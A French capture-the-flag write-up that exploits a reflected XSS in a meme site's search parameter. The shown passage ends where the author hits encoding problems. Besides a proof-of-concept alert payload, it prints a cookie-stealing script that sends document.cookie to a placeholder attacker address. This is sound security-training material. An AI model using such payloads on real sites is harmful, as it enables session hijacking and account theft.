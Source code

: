 # Gare au gorille

## Enoncé
J'ai construit un site sans prétention pour stocker ma collection de memes !

## Découverte
En naviguant sur le site, on trouve plusieurs choses : 
- l'url /flag correspondant au bouton "Ajouter un meme" qui n'est accesible que par l'admin
- une fonction de recherche par le paramètre /?search=
- une fonction de signaler certaines images à l'admin

## Réflexion
La construction de site présente laisse penser qu'on doit s'attendre à une XSS et éventuellement un vol de cookie. On teste donc le champ /?search= avec un payload POC :
`https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>alert("XSS")</script>`
Et bingo, on obtient bien un pop-up JavaScript qui confirme notre hypothèse.

## Exploitation
On imagine donc qu'on doit voler le cookie de l'admin en lui envoyant un payload via la fonction de signalement d'image.
### Fabrication du payload
Après quelque recherches, on trouve facilement ce payload :
`<script>var i=new Image;i.src="http://[ATTACKINGIP]"+document.cookie;</script>`

On test donc le payload sur notre propre session avec le champ de recherche : 
`https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>var i=new Image;i.src="http://[ATTACKINGIP]"+document.cookie;</script>`
Problème : les caractères `;` et `+` ne sont pas bien interprétés.
